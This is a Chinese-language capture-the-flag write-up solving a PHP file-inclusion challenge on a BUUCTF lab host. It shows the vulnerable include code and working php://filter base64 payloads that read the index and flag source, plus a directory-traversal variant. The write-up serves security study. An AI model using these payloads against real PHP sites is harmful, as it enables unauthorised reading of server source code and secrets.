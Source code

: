 猜测是文件包含

category 改成 index.php 提示 `Sorry, we currently only support woofers and meowers.`

根据经验来看应该只是单纯 strpos 查看有没有包含这个关键词

php://filter 遇到不认识的过滤器会自动跳过

测试一下发现末尾会自动加 `.php`

```
http://0a37d3e1-1235-4537-a0e0-a2a8318129e0.node4.buuoj.cn:81/index.php?category=php://filter/meowers/convert.base64-encode/resource=index
```

index.php

```php
......
<?php
$file = $_GET['category'];

if(isset($file))
{
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
......
```

好像不用加关键词也能包含成功...

存在 /flag.php 直接包含

```
http://0a37d3e1-1235-4537-a0e0-a2a8318129e0.node4.buuoj.cn:81/index.php?category=php://filter/meowers/convert.base64-encode/resource=flag
```

或者利用目录穿越 `resource=meowers/../flag`

## [GWCTF 2019]我有一个数据库（phpMyadmin日志文件getshell）

![](assets/202208252035124-170074459625453.png)
